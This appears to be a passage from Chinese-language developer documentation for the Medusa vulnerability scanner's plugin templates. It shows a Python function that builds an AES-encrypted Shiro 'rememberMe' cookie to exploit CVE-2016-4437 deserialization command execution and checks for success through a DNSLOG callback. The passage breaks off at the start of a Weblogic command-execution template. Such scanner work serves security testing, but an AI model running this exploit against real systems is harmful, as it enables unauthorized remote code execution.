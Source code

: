 ### task函数

```python
def task(**kwargs):
    DL=kwargs.get("DL")
    payload_url=kwargs.get("payload_url")
    key=kwargs.get("key")
    url=kwargs.get("url")
    try:
        encryptor = AES.new(base64.b64decode(key), kwargs.get("AES_MODE"), kwargs.get("AES_IV"))
        base64_ciphertext = base64.b64encode(kwargs.get("AES_IV") + encryptor.encrypt(kwargs.get("file_body")))
        cookies = {"jeesite.session.id": "3f8a61ec-27e2-425c-9724-f96ba0c1e512",
                   "rememberMe": base64_ciphertext.decode()}
        requests.get(payload_url, cookies=cookies,  proxies=kwargs.get("proxies"), timeout=6, verify=False)
        time.sleep(5)
        if DL.result():
            Medusa = "{} 存在ShiroRememberMe反序列化命令执行漏洞(CVE-2016-4437)\r\n验证数据:\r\n漏洞位置:{}\r\n秘钥:{}\r\nHeaders请求头:{}\r\nDNSLOG请求值:{}\r\nDNSLOG数据:{}\r\n".format(
                url, payload_url, key, cookies, DL.dns_host(), DL.dns_text())
            _t = VulnerabilityInfo(Medusa)
            VulnerabilityDetails(_t.info, url, Uid=kwargs.get("Uid"),Sid=kwargs.get("Sid")).Write()  # 传入url和扫描到的数据
            WriteFile().result(str(url), str(Medusa))  # 写入文件，url为目标文件名统一传入，Medusa为结果
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorHandling().Outlier(e, _)
        ErrorLog().Write("Plugin Name:" + _ + " || Target Url:" + url, e)  # 调用写入类传入URL和错误插件名
```

这个函数把之前**常规插件模板**中的`medusa`函数的核心请求调用到这边

##### 注意点：

- 如果多个地方需要使用的参数或者初始化的类，并且是从**多线程模板**中的`medusa`函数传入的必须在最开始的地方获取这样可以减少开销，比如上面的`url`参数、`DL`类的地址
- 所有从**多线程模板**中的`medusa`函数传入的参数必须使用`kwargs.get("XXXXX")`的方式来获取
- **常规插件模板**中写入数据库的`VulnerabilityDetails(_t.info, url,**kwargs).Write()`类初始化传入的`**kwargs`值必须替换，整体替换为`VulnerabilityDetails(_t.info, url, Uid=kwargs.get("Uid"),Sid=kwargs.get("Sid")).Write()`

## 命令执行模板

> 该模板其需要叠加到常规模板中使用

下面已`Weblogic`插件作为例子

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__author__ = 'Ascotbe'
from ClassCongregation import VulnerabilityDetails,UrlProcessing,ErrorLog,WriteFile,ErrorHandling,Proxies,Dnslog,Exploit,ExploitOutput
import urllib3
import requests
import time
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
class VulnerabilityInfo(object):
    def __init__(self,Medusa):
        .......


def medusa(Url:str,Headers:dict,proxies:str=None,**kwargs)->None:
    .......
#以上内容和常规模板一样，这边就不做概述

def exploit(Url: str, Headers: dict, proxies: str = None, **kwargs) -> None:
```